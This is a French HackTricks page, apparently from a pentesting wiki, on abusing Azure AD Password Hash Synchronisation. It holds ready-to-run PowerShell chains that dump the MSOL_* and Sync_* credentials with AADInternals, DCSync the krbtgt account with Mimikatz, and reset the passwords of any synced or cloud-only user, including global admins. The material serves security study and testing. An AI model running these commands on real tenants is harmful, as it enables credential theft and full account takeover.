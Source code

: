 # Az - PHS - Synchronisation de Hash de Mot de Passe

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informations de Base

La **synchronisation de hash de mot de passe** est l'une des méthodes de connexion utilisées pour réaliser une identité hybride. **Azure AD Connect** synchronise un hash, du hash, du mot de passe d'un utilisateur depuis une instance Active Directory locale vers une instance Azure AD basée dans le cloud.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

C'est la **méthode la plus courante** utilisée par les entreprises pour synchroniser un AD local avec Azure AD.

Tous les **utilisateurs** et un **hash des hashes de mot de passe** sont synchronisés du local vers Azure AD. Cependant, les **mots de passe en clair** ou les **hashes originaux** ne sont pas envoyés à Azure AD.
De plus, les groupes de sécurité **intégrés** (comme les administrateurs de domaine...) ne sont **pas synchronisés** avec Azure AD.

La **synchronisation des hashes** se produit toutes les **2 minutes**. Cependant, par défaut, l'**expiration des mots de passe** et l'**expiration des comptes** ne sont **pas synchronisées** dans Azure AD. Ainsi, un utilisateur dont le **mot de passe local est expiré** (non modifié) peut continuer à **accéder aux ressources Azure** en utilisant l'ancien mot de passe.

Lorsqu'un utilisateur local souhaite accéder à une ressource Azure, l'**authentification a lieu sur Azure AD**.

Le **PHS** est requis pour des fonctionnalités telles que **Identity Protection** et les Services de Domaine AAD.

## Pivotement

Lorsque PHS est configuré, certains **comptes privilégiés** sont automatiquement **créés** :

* Le compte **`MSOL_<installationID>`** est automatiquement créé dans l'AD local. Ce compte se voit attribuer un rôle de **Comptes de Synchronisation d'Annuaire** (voir [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) ce qui signifie qu'il a des **permissions de réplication (DCSync) dans l'AD local**.
* Un compte **`Sync_<nom du serveur ADConnect local>_installationID`** est créé dans Azure AD. Ce compte peut **réinitialiser le mot de passe de N'IMPORTE QUEL utilisateur** (synchronisé ou uniquement dans le cloud) dans Azure AD.

Les mots de passe des deux comptes privilégiés précédents sont **stockés dans un serveur SQL** sur le serveur où **Azure AD Connect est installé**. Les administrateurs peuvent extraire les mots de passe de ces utilisateurs privilégiés en clair.
La base de données se trouve dans `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Il est possible d'extraire la configuration de l'une des tables, l'une étant chiffrée :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La **configuration chiffrée** est chiffrée avec **DPAPI** et contient les **mots de passe de l'utilisateur `MSOL_*`** dans l'AD local et le mot de passe de **Sync\_\*** dans AzureAD. Par conséquent, compromettre ces éléments permet de passer à un niveau de privilège supérieur dans l'AD et dans AzureAD.

Vous pouvez trouver un [aperçu complet de la manière dont ces identifiants sont stockés et déchiffrés dans cette présentation](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Trouver le **serveur Azure AD connect**

Si le **serveur où Azure AD connect est installé** est joint à un domaine (recommandé dans la documentation), il est possible de le trouver avec :
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Abus des MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Vous pouvez également utiliser [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) pour obtenir ces identifiants.
{% endhint %}

### Abuser de Sync\_\*

Compromettre le compte **`Sync_*`** permet de **réinitialiser le mot de passe** de n'importe quel utilisateur (y compris les administrateurs globaux)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Il est également possible de **modifier les mots de passe des utilisateurs uniquement dans le cloud** (même si cela est inattendu)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Il est également possible de récupérer le mot de passe de cet utilisateur.

{% hint style="danger" %}
Une autre option serait d'**attribuer des permissions privilégiées à un principal de service**, ce que l'utilisateur **Sync** a le **droit** de faire, puis d'**accéder à ce principal de service** comme moyen d'élévation de privilèges.
{% endhint %}

### Seamless SSO

Il est possible d'utiliser Seamless SSO avec PHS, ce qui est vulnérable à d'autres abus. Vérifiez-le dans :

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
